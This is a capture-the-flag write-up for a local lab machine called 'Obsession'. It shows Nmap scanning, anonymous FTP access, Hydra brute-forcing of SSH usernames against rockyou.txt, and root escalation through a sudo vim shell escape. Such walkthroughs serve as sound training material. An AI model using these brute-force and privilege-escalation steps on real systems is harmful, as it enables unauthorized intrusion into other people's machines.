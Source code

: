 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Let's perform a more targeted scan of the services we have.
For the FTP service, we use this type of scan that tests some typical scripts:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

We see that the default anonymous user and password are allowed, and we find two interesting files:
chat_gonza.txt and pendientes.txt.

Therefore, we download them to view the contents of both files with the following command once we're inside the
FTP service:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

Similarly, we perform a more specific scan for the SSH service:

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

However, we don't get anything relevant.

## Examining the Web Page
Let's see what's on the web page. If we examine the source code,
this appears:
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

## Examining files
Let's examine the two files we downloaded via the FTP service:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
We can see that there are three potential users "Gonza", "Russoski" and "Nagore", so we're going to try if any of these users allow us to access the SSH service. For this, I'm going to use the hydra tool and the "rockyou.txt" dictionary.

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

## Intrusion

We see that we get russoski's password which is "iloveme", so we can now connect to the SSH service:

![Descripción de Obssesion](Imagenes/Obssesion_7.png)


## Privilege Escalation

We execute the command:
```ruby
sudo -l
```

![Descripción de Obssesion](Imagenes/Obssesion_6.png)

We see that we can execute the vim binary as root, so we go to GTFOBins and check if we can exploit it:

```ruby
sudo vim -c ':!/bin/sh'
```
![Descripción de Obssesion](Imagenes/Obssesion_8.png)
